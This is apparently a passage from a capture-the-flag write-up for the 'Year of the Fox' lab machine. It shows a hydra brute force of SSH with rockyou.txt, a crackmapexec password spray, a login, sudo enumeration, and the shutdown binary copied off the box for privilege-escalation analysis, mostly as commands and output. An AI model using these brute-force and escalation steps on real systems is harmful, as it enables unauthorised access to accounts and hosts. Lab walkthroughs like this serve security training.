 > **SSH Password Brute Force**
> 

`hydra -l fox -P /usr/share/wordlists/rockyou.txt -f -s 11222 yearofthefox.thm ssh`

```bash
[11222][ssh] host: yearofthefox.thm   login: fox   password: bubbles1
```

`crackmapexec ssh yearofthefox.thm -u fox -p /usr/share/wordlists/rockyou.txt --port 11222 -x 'whoami'`

```bash
[REDACTED] - SAME PASSWORD
```

> **Binary Analyze & Privilege Escalation**
> 

`ssh -o MACs=hmac-sha2-256 fox@yearofthefox.thm -p 11222`

```bash
fox@yearofthefox.thm's password: 

        __   __                       __   _   _            _____         
        \ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  ___|____  __
         \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_ / _ \ \/ /
          | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  _| (_) >  < 
          |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|  \___/_/\_\

                                                                  
fox@year-of-the-fox:~$ whoami
fox
fox@year-of-the-fox:~$ id
uid=1000(fox) gid=1000(fox) groups=1000(fox),114(sambashare)
fox@year-of-the-fox:~$ pwd
/home/fox
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
fox@year-of-the-fox:~$ which python
/usr/bin/python
fox@year-of-the-fox:~$ cd /usr/sbin
fox@year-of-the-fox:/usr/sbin$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`wget yearofthefox.thm:8000/shutdown -O shutdown`

```bash
shutdown                             100%[====================================================================>]   8.11K  --.-KB/s    in 0.009s  

2024-09-10 08:46:38 (921 KB/s) - ‘shutdown’ saved [8304/8304]

```
